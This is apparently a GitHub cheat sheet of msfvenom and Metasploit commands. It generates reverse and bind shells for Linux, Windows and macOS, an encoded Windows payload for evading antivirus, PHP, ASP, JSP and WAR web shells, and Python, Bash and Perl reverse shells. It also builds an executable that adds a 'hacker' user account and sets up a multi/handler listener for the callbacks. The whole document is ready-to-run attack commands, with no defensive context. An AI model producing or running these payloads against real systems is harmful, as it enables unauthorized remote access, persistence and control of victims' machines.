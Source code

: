 ### This File contains the cheetsheet for msfconsole

#### List payloads
> msfvenom -l

#### Binaries Payloads

#### Linux Meterpreter Reverse Shell
> msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f elf > shell.elf

#### Linux Bind Meterpreter Shell
> msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > bind.elf

#### Linux Bind Shell
> msfvenom -p generic/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > term.elf

#### Windows Meterpreter Reverse TCP Shell
> msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe

#### Windows Reverse TCP Shell
> msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe

#### Windows Encoded Meterpreter Windows Reverse Shell
> msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe

#### Mac Reverse Shell
> msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f macho > shell.macho

#### Mac Bind Shell
> msfvenom -p osx/x86/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f macho > bind.macho

#### Web Payloads

#### PHP Meterpreter Reverse TCP
> msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php &&
  cat shell.php | pbcopy && echo ‘<?php ‘ | tr -d ‘\n’ > shell.php && pbpaste >> shell.php

#### ASP Meterpreter Reverse TCP
> msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f asp > shell.asp

#### JSP Java Meterpreter Reverse TCP
> msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp

#### WAR
> msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war

#### Scripting Payloads

#### Python Reverse Shell
> msfvenom -p cmd/unix/reverse_python LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.py

#### Bash Unix Reverse Shell
> msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh

#### Perl Unix Reverse shell
> msfvenom -p cmd/unix/reverse_perl LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.pl

#### Shellcode

#### Windows Meterpreter Reverse TCP Shellcode
> msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>

#### Linux Meterpreter Reverse TCP Shellcode
> msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>

#### Mac Reverse TCP Shellcode
> msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>

#### Create User
> msfvenom -p windows/adduser USER=hacker PASS=Hacker123$ -f exe > adduser.exe

#### Metasploit Handler

> use exploit/multi/handler &&
 set PAYLOAD <Payload name> &&
 Set RHOST <Remote IP> &&
 set LHOST <Local IP> &&
 set LPORT <Local Port> &&
 Run
